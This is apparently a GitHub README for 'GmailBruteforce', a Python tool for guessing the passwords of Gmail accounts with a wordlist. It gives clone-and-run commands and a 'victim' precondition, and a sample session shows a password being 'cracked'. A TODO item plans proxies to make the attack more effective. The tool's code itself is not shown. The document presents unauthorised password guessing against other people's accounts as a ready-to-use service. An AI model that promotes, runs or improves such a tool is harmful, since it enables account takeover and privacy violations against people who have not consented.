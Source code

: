 # GmailBruteforce

Powerful, Robust and Efficient tool for bruteforcing Gmail accounts written in python3.

Source on [github](https://github.com/Sarthak214/GmailBruteforce)

### Installation

**Pre requisties:** `git` and `python3`

1. For windows

```bash
git clone https://github.com/Sarthak2143/GmailBruteforce
cd GmailBruteforce/
python3 main.py
```
1. For Mac/Linux

```bash
git clone https://github.com/Sarthak2143/GmailBruteforce
cd GmailBruteforce/
chmod +x main.py
./main.py
```
## NOTE

In order to bruteforce any gmail account with this tool the victim account must have **Less Secure Apps** turned on.

For more details see [Why you need to turn ON less secure apps](https://support.google.com/accounts/answer/6010255?hl=en)

Read this [article by devnews](https://devanswers.co/allow-less-secure-apps-access-gmail-account/) to turn ON **Less secure apps.**

## Usage

**Pre requisties:**  

- Victim's Gmail account.
- Wordlist for bruteforcing.

This tool comes with a wordlist pre-installed.

```bash
┌──(kali㉿kali)-[~/GmailBruteforce]
└─$ python3 main.py

[?] Enter email adress: test@gmail.com
[?] Enter wordlist path: wordlist.txt
Starting bruteforcing...

[!] Incorrect password: 123456
[!] Incorrect password: 12345
[!] Incorrect password: 123456789
[!] Incorrect password: password                        
[!] Incorrect password: iloveyou
[!] Incorrect password: princess
[!] Incorrect password: 1234567                         
[!] Incorrect password: 12345678                        
[!] Incorrect password: abc123
[!] Incorrect password: nicole                          
[!] Incorrect password: daniel                         
[!] Incorrect password: babygirl                       
[!] Incorrect password: monkey
[!] Incorrect password: lovely
[!] Incorrect password: jessica
[!] Incorrect password: michael
[!] Incorrect password: ashley
[!] Incorrect password: qwerty
[!] Incorrect password: 111111
[!] Incorrect password: iloveu
[!] Incorrect password: 000000
[!] Incorrect password: michelle
[!] Incorrect password: tigger
[!] Incorrect password: sunshine
[+] Correct password: chocolate
[+] Password cracked!

[*] Script finished!
[*] Time Elapsed: 18 seconds.
```

You've to specify the Gmail address and path to wordlist in the input section.

## TODO

- [ ] Use proxies for better efficiency.
- [ ] Commamd line version with flags.

### Support

Having trouble with Tool? [Report an Issue](https://github.com/Sarthak2143/GmailBruteforce/issues).
